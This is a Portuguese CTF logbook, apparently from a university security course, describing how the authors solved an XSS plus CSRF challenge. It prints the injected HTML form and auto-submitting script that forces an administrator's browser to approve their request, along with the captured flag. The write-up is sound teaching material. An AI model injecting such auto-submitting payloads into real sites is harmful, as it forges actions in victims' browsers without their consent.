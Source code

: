 # LOGBOOK6 - CTF - XSS + CSRF
<div align="justify">
<p>Neste CTF, ao entrar no site mencionado, deparamo nos com uma caixa de texto na qual podemos inserir qualquer tipo de conteúdo, e o administrador fornecerá a flag dependendo do input. </p>
![Alt text](uploads/logbook6P1.png)
<p>
Para analisar o que acontece no site, inserimos um texto e observamos que há uma página com um formulário onde o administrador decide se o input enviado é aceitável (fornecendo assim a flag) ou não. </p>
![Alt text](uploads/logbook6P2.png)
![Alt text](uploads/logbook6P3.png)
<p>Com isso em mente, pensamos que poderia ser possível inserir um formulário idêntico ao que o administrador tinha acesso, mas com um 'script' que 'forçasse' o administrador a aceitar o que era enviado.
Analisando o código-fonte da página, verificamos que o 'formulário' que precisa de ser enviado, fornecendo a flag, possui o seguinte código:</p>
</div>

```html
<form method="POST" action="/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```
Assim, para que o formulário seja 'submited' automaticamente, inserimos o seguinte 'script' no nosso input:
```html
<script>document.getElementById('fake_id').submit()</script>  
<!-- O fake_id é o id colocado no 'form' que foi colocado no input -->
<!-- Este script procura um elemento com ID = fake_id e submete esse formulário -->
```
Com isso, o 'input' que enviamos foi o seguinte:
```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script>  
```
<div align="justify">
<p>Após o envio do nosso formulário, a página é recarregada, mostrando a flag, embora esta seja redirecionada para outra página quase instantaneamente. Portanto, para obtermos a flag, assim que enviamos a nossa resposta, pressionamos o botão 'parar' para evitar o redirecionamento automático, conseguindo então obter a flag: flag{0d190349a6f060ce425ee7ce5b35f00f}.</p>
![Alt text](uploads/logbook6P4.png)
![Alt text](uploads/logbook6P5.png)
![Alt text](uploads/logbook6P6.png)
</div>
